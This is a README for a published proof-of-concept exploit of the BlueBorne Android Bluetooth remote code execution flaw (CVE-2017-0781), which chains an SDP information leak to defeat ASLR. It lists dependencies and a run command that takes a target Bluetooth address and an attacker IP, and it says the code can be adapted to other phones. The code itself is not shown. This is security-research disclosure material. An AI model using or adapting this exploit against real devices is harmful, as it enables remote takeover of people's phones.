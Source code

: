 BlueBorne Android Exploit PoC
=============================

This directory contains a PoC code of BlueBorne's Android RCE vulnerability (CVE-2017-0781).
It also uses the SDP Information leak vulnerability (CVE-2017-0785) to bypass ASLR.
It achieves code execution on a Google Pixel Android smartphone running version 7.1.2 with Security Patch Level July or August 2017.
This code can also be altered a bit in order to target other Android smartphones.

For more details you may read the full technical white paper available here:

https://www.armis.com/blueborne/

In addition a detailed blog post on the exploitation of this vulnerability would also go live on Sunday 22nd of October here:

https://www.armis.com/blog/

===============

Dependencies:

    pip2 packages: pybluez, pwn
    
    - sudo apt-get install libbluetooth-dev
    - sudo pip2 install pybluez pwn

    A CSR USB bluetooth adapter. We need to change the MAC address, and so we use a vendor specific HCI command to do this
    for the CSR bluetooth adapter.
    - An alternative adapter can also be used - the only thing to alter is the set_rand_bdaddr function.

To run:

    sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)


